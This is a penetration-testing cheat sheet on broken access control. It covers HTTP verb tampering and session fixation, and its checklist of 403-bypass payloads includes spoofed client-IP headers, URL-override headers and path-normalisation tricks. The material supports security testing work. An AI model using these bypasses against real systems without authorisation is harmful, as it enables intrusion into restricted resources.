 # Broken Access Control
- [HTTP Verb Tampering](#http-verb-tampering)
- [Session Fixation](#session-fixation)


## HTTP verb Tampering

|Verb|	Description|
|:---|:------------|
|HEAD|	Identical to a GET request, but its response only contains the headers, without the response body|
|PUT|	Writes the request payload to the specified location|
|DELETE|	Deletes the resource at the specified location|
|OPTIONS|	Shows different options accepted by a web server, like accepted HTTP verbs|
|PATCH|	Apply partial modifications to the resource at the specified location|




## Session Fixation 

1. Acquire a legitimate session token.

2. Lock or "fix" that session token to a user’s session. This can occur under the following conditions:

    - The session token given to the user before logging in does not change after they log in.
    - The application accepts session tokens (like cookies or tokens in URLs or form data) from client-supplied sources such as query parameters or POST data, and continues to use them throughout the session.


### Testing:
- [ ]  Parameter Pollution
- [ ]  Try different verbs on every function
- [ ]  Always check source code and robots.txt file
- [ ]  Fuzz hidden parameters in login page
- [ ]  Check whether admin cookie exist e.g. admin= roleid=
- [ ]  Check whether roleid in Response
- [ ]  Check whether GUID is disclosed in some place
- [ ]  Check whether victim data is disclosed while login page redirection
- [ ]  Bypass 403 by X-Original-URL: OR X-Rewrite-URL: (Override URL)
- [ ]  Bypass 403
    
    **IP-based Access Control:**
    
    - X-Originating-IP: 127.0.0.1
    - X-Forwarded-For: 127.0.0.1
    - X-Forwarded: 127.0.0.1
    - Forwarded-For: 127.0.0.1
    - X-Forwarded-Host: 127.0.0.1
    - X-Remote-IP: 127.0.0.1
    - X-Remote-Addr: 127.0.0.1
    - X-ProxyUser-Ip: 127.0.0.1
    - X-Original-URL: 127.0.0.1
    - Client-IP: 127.0.0.1
    - X-Client-IP: 127.0.0.1
    - X-Host: 127.0.0.1
    - True-Client-IP: 127.0.0.1
    - Cluster-Client-IP: 127.0.0.1
    - X-ProxyUser-Ip: 127.0.0.1
    - Via: 1.0 fred, 1.1 127.0.0.1
- [ ]  Bypass 403 by change method to POSTX,  GET, CONNECT, Head and so
- [ ]  Bypass 403
    
    **URL-matching Discrepancies**
    
    - site.com/secret –> HTTP 403 Forbidden
    - site.com/SECRET –> HTTP 200 OK
    - site.com/secret/ –> HTTP 200 OK
    - site.com/secret/. –> HTTP 200 OK
    - site.com//secret// –> HTTP 200 OK
    - site.com/./secret/.. –> HTTP 200 OK
    - site.com/;/secret –> HTTP 200 OK
    - site.com/.;/secret –> HTTP 200 OK
    - site.com//;//secret –> HTTP 200 OK
    - site.com/secret.json –> HTTP 200 OK (ruby)
    - site.com/secret.anything -> HTTP 200 OK
- [ ]  Bypass 403 by tampering with Referer header
- [ ]  Bypass Blocked paths 
    - Try Access allowed file after disallowed file e.g. If /data is forbidden Try /data/home
    - Try using // instead of / in the path
    - Try using /uploads/ instead of /uploads
    - Try using `.` or `%2e`: /%2e/path
    - Try also /%252e/path (double URL encode)
    - /api/23423423/users -> 403 forbidden, you can bypass using:
        - /api//users
        - /api\\users
  
